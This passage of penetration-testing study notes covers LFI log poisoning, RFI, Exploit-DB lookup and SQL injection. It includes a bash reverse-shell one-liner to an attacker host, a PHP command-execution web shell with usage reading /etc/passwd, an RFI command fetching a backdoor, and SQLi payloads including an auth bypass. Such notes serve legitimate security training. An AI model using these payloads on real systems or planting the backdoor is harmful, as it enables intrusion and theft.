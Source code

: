 		- `bash -c "bash -i >& /dev/tcp/$kaliIP/$kaliPort 0>&1"`
		- URL encoded though
	- On a Windows target running XAMPP, the Apache logs can be found in C:\xampp\apache\logs\.
	- On a Linux target Apache’s access.log file can be found in the /var/log/apache2/ directory.
- There are other examples of LFI, including uploading a reverse shell to a web application and calling it through the URL. The above is just one example of the concept. 

## RFI
- Executing on our file on the server. 
- In PHP web applications, the allow_url_include option needs to be enabled to leverage RFI. This is rare and disabled by default in current versions of PHP
 [Example backdoor script](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php):
	```
	<?php
	
	if(isset($_REQUEST['cmd'])){
	        echo "<pre>";
	        $cmd = ($_REQUEST['cmd']);
	        system($cmd);
	        echo "</pre>";
	        die;
	}
	
	?>
	```
- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
- curl"\<target>/index.php?page=http://\<kali server>/backdoor.php&cmd=ls"

##  Public Exploits
SearchSploit/Exploit-DB
`searchsploit $searchterm`
`searchsploit -x $file 
`searchsploit -m $file` (copies to working directory)
- Exploits for searchsploit are found in `/usr/share/exploitdb/exploits/`

TIPS:
- `SEC_UNKNOWN_ISSUER` error can be bypassed with the `verify=False` param in Python


## SQLi
[Burp Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[Rana Kalil Video playlist](https://www.youtube.com/watch?v=X1X1UdaC_90&list=PLuyTk2_mYISItkbigDRkL9BFpyRenqrRJ)
[SQLi Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) from Codingo

### See Enumeration Section

### Notes
Goal is to initially find a location for SQLi and hopefully determine what the actual query is
Test possibles injection locations:
- `'`
- `' --`
- `' OR 1=1`
- `' OR 1=1; -- - `
- `'UNION SELECT * FROM users WHERE 1=1; -- -`
- Note that `--` is for comments meaning that everything after that (including what you don't see) will not be included, so if there is another clause, like 'AND variable = 1', it will return everything whether than variable is 1 or 0. 
Ex: `username=administrator'--'&password=password123`
	- This query should be SELECT x FROM y WHERE username = administrator and password = password123